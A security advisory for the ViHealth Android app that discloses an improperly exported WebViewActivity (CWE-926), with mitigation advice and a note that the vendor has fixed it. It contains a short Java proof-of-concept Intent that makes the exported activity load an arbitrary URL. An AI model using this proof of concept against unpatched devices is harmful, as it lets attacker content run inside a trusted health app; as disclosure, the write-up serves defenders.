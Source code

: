 

Vendor of Product: Viatom Tech                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type:   CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

Discoverer: Edward Warren

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

["activity android:name="com.viatom.baselib.mvvm.web.WebViewActivity" android:exported="true" android:screenOrientation="portrait""]




An attacker could craft a 3rd party app using the following code to load the url of their choice within the context of the exported activity of your application to facilitate malicious actions:

********
// Create an Intent to start the exported WebViewActivity of the target app
Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);
********


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2e067350-e64c-40ee-b3c0-b8c450a34c31)


**This issue has been fixed today (6/19/23) with the app ViHealth (V. 2.74.62)-shortly after I reported it to the vendor on 6/10/23.
